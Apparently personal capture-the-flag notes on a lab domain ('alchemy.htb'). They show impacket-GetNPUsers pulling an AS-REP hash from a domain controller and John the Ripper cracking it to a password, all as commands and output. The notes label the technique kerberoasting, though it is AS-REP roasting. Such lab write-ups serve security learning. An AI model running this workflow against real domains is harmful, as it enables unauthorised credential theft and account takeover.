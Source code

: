 ### Kerberoast
#kerberoast
- If you have usernames, you can kerberoast the DC with a userfile to get a krb5asrep hash. Once you have this hash you can break it utilizing `john`
- to kerberoast `impacket-GetNPUsers` seems reliable, I utilized Rubeus originally but it gave a false negative - possibly a user error maybe to not providing an appropriate userlist.
- put the full hash in a file named`hashlist`
```bash
┌──(root💀gobots)-[21Jun2024 19:01:00]-[/home/kali/SUT/Alchemy]                                                    
└─# proxychains impacket-GetNPUsers  -usersfile "userlist" -dc-host "dc.alchemy.htb" "alchemy.htb"/                
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                             
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User calde_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set                                                       
[-] User calde_ldap@alchemy.htb doesn't have UF_DONT_REQUIRE_PREAUTH set                                           
[-] User calde doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aepike doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aepike@alchemy.htb doesn't have UF_DONT_REQUIRE_PREAUTH set                                               
[-] User thanos doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$james@ALCHEMY.HTB:5c0e5f49eef42e4d34db45499c6c6152$a912a376f7cf252fe58719fab2c9770cec85c6dec677908ab0a11acaa3136ec3bd983481ef13f9c8cfd434afd7c331ca315332f8e602ca687406b0b5debf2f3803e984391fc1a636b82e9b667dc9a754ec613
5cbe607b2ce496c03fe90b117f21e3ef5e9500da39d50f7f74ab5748a3c16d84ff8204b1b4d45fbcb80242fe35fa1e55d5bff0b4f33c2a8ca6acbffb56e4f18f4be1b698f1588dcfdc801441df74e3d4059eb28464efe19beebb245e362d0fbdf9cd1fc0713bec926fb3a2e11ede05ff72d7fd
ae5574e7444bee1368d61a85c4289541754ac406dffefddbe833a65d889a1d5ddf7d10e80                                          
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set                   
```
#### John the ripper - Password Cracking
#john
- get the password greenday
```bash
┌──(root💀gobots)-[21Jun2024 19:14:27]-[/home/kali/SUT/Alchemy/172.16.0.2]
└─# john --format=krb5asrep --wordlist=rockyou.txt hashlist
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads                                
Press 'q' or Ctrl-C to abort, almost any other key for status
greenday         ($krb5asrep$23$james@ALCHEMY.HTB)     
1g 0:00:00:00 DONE (2024-06-21 19:14) 100.0g/s 102400p/s 102400c/s 102400C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.                     
```
